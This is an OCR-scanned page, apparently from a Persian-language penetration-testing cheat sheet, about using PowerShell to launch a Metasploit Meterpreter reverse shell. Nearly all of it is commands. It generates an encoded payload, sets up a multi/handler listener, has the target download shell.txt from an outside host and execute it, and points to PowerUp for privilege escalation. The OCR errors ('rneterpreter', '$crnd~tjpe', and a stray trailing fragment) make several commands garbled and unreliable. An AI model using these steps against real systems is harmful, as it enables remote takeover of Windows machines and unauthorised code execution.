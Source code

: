 Copyright 2012 TrustedSec, LLC. All rights reserved.   
Please see reference \[7\] for disclaimer

## استفاده از powersehll برای راه اندازی meterpreter \(روش دوم\)

### On bt attack box

```text
1. msfpayload windows/rneterpreter/reverse tcp LHOST=10.1.1.1
LPORT~8080 R I msfencode -t psh -a x86
```

### در سیستم حمله کننده

```text
1. c:\ powershell
2. PS c:\ $cmd = ' PASTE THE CONTENTS OF THE PSH SCRIPT HERE '
3. PS c:\ $u = [System.Text.Encoding]: :Unicode.GetBytes($crnd)
4. PS c: \ $e = [Convert] ::ToBase64String($u)
5. PS c:\ $e
6. Copy contents of $e
```

### شروع listener در سیستم حمله کننده

```text
1. ./msfconsole
2. use exploit/multi/handler
3. set payload windows/meterpreter/reverse tcp
4. set LHOST 1.1.1.1
5. set LPORT 8080
6. exploit -j
```

### در سیستم هدف \(1:دانلود شل کد, 2:اجرا\)

```text
1.  c: \ powershell -noprofile -noninteracti ve -command " &
    {$client=new-object
    System.Net.WebClient;$client.DownloadFile('http://1.1.1.1/shell.txt
    ', 'c:\windows\temp\ shell.txt') )"
2.  c: \ powershell -noprofile -noninteracti ve -noexi t -command " &
    {$crnd~tjpe 'c:\windows\temp\ shell.txt';powershell -noprofilenoninteractive
    -noexit -encodedCornmand $cmd} "
PROFIT
```

### شناسایی دامنه های آسیب پذیر با powerup

```text
https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1
. .\PowerUp.ps1
```


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"